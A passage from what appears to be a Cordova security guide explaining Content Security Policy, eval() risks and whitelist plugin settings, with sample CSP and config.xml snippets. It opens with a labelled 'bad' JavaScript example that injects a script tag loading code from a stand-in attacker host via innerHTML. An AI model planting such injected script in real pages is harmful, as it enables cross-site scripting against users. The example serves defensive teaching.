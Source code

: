     ```javascript
    // This is also bad
    textInput = "<div id='hack-otuput'></div><script src='http://iliketohackthings.com/mybadscript.js'></script>"
    document.getElementById("output-div").innerHTML = textInput;
    ```

3. **eval()** along with related features like "new Function" also pose a risk but these are reduced if the inline and same origin restrictions are left in place. Further, eval is used by a number of JavaScript frameworks for optimization purposes so while this is the default it can become quite problematic if left in place. If your app and all associated frameworks do not make use of eval, you should disable it. Otherwise avoid using eval in your own code unless you really know exactly what you are doing.

Note that none of these rules apply to images or other static content. 

The default CSP policy in Visual Studio and Cordova templates is a solid starting point. It allows eval(), but keeps the inline script and same origin restrictions in place.

```
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self' data: gap: https://ssl.gstatic.com 'unsafe-eval'; 
               style-src 'self' 'unsafe-inline'; 
               media-src *">
```

See the **[Cordova whitelist and Content Security Policy guide](whitelists.md)** for additional details on configuring a CSP policy to meet your needs.

##Manage your whitelists
When using Cordova 5+, you will need to install a whitelist plugin to enable access to external network resources on Android. iOS and Windows 10 also supports the features in the whitelist plugin but as of 6.0.0 they are provided by the iOS platform itself. Regardless, the new whitelist plugin that is pre-installed in new Cordova projects either created from the CLI or Visual Studio actually introduce three separate elements designed to enable more discrete control that was possible in the past.

The **access** element from previous versions of Cordova returns but only controls where your app can make XHR requests or access other external content from a web page for Android and iOS. It no longer controls whether you can navigate to a different domain (such as hosted content). A new **allow-navigation** element has been added that then enables you to specify where the app can navigate instead. Finally, a new **allow-intent** element has been introduced specifically designed to control Android intents.

The base Visual Studio and [Cordova CLI](http://aka.ms/cordova-cli) template (via the cordova create command) has a config.xml file in it that is designed to allow the app to make external requests anywhere, allows a specific subset of intents, and prevents the WebView in the Cordova app to navigate anywhere other than local content.

```
<access origin="*" />
<allow-intent href="http://*/*" />
<allow-intent href="https://*/*" />
<allow-intent href="tel:*" />
<allow-intent href="sms:*" />
<allow-intent href="mailto:*" />
<allow-intent href="geo:*" />
```
